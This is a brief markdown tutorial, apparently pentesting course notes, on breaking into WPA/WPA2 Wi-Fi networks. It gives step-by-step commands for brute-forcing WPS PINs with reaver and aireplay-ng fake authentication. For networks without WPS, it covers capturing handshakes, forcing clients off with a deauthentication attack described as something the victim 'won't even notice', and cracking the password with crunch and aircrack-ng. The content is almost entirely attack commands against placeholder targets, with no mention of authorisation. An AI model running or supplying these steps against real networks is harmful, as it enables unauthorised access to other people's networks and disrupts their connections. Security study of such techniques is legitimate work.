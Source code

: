 # Gaining access WPA/WPA2

## Gaining access if WPS is enabled and misconfigured

this method is used if the network is configured with WPS to use pin instead of PBA (Push Button Authentication)

- list all network using WPS
```
$ wash --interface <wireless-adapter>
```

- Before starting the attack is better to run airodump-ng to listen to the target network, this ensure that the wireless adapter is set to the same channel as the target.
```
$ airodump-ng --bssid <target-bssid> --channel <target-channel> <wireless-adapter>
```

- start bruteforce the pin once the assosiation in the next command is enstablished
```
$ reaver --bssid <target-bssid> --channel <target-channel> --interface <wireless-adapter> -vvv --no-associate
```
-vvv: outputs more usefull information;<br>
--no-associate: because we do it manually after, reaver can do it automatically but it has more chance to fail.

- assosiate with the target network
```
$ aireplay-ng --fakeauth 30 -a <target-bssid> -h <wireless-adapter-mac-addr> <wireless-adapter>
```
the option 30 tels to assosiate every 30 seconds.<br>
(Make sure the previous command reaver is running)

## Gaining access if WPS is not enabled or configured to use PBA

- listen to terget network and store data to file
```
$ airodump-ng --bssid <target-bssid> --channel <target-channel> --write <filename> <wireless-adapter>
```

- wait a new client to connect to capture the headshake package
to avoid waiting we can execute an deauthentication attack to force a client to reconnect:
```
$ aireplay-ng --deauth 4 -a <target-bssid> -c <client-mac-addr> <wireless-adapter>
```
option 4 because we disconnect the client for a very short time, he won't even notice.

- once the heandshake is capture we can quit airodump-ng

- generate a wordlist
```
$ crunch <min> <max> <character> -t <pattern> -o <filename>
```

- test all words in the wordlist to find the valid password
```
$ aircrack-ng <filename.cap> -w <wordlist-filename>
```
